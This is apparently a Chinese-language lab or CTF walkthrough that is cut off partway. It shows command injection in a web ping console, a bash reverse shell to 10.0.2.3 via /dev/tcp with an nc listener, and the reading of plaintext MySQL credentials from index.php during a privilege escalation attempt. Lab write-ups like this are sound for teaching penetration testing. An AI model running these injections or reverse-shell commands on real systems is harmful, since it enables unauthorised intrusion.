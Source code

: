 注入有效，登录后是一个可以 Ping 操作的页面

![image-20251019223000171](images/image-20251019223000171.png)

```yacas
127.0.0.1

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.283 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.411 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.508 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 0.283/0.400/0.508/0.095 ms, pipe 2

```

发现 Web Console 直接执行了一个 `ping 127.0.0.1` 的操作，尝试一个命令注入

```yacas
> 127.0.0.1 | whoami
apache
```

非常听话，此时可以理解为获得了一个低权限 Shell，接下来考虑提权

为了方便操作我们先获取一个反向 Shell：

```yacas
// Web 页面，命令注入
> 127.0.0.1|bash -i >& /dev/tcp/10.0.2.3/1234 0>&1
// 攻击机 Shell，nc 连接反向 Shell
> nc -lvp 1234  
listening on [any] 1234 ...
10.0.2.15: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.15] 32771
bash: no job control in this shell
bash-3.00$ 
```

Getshll 操作完成

### 提权尝试

#### SQL UDF 提权（提权失败）

MySQL 服务通常以高权限运行，可以先获得 MySQL 的管理员账户，再通过 UDP 执行系统指令

```yacas
/* /var/www/html/index.php 存放 Apache 的文档根目录（默认）*/
> bash-3.00$ cat /var/www/html/index.php
<?php
		// 这里是 MySQL 凭据，明文存储
        mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
        //print "Connected to MySQL<br />";
        mysql_select_db("webapp");

        if ($_POST['uname'] != ""){
                $username = $_POST['uname'];
                $password = $_POST['psw'];
    			// SQL 注入漏洞
                $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
```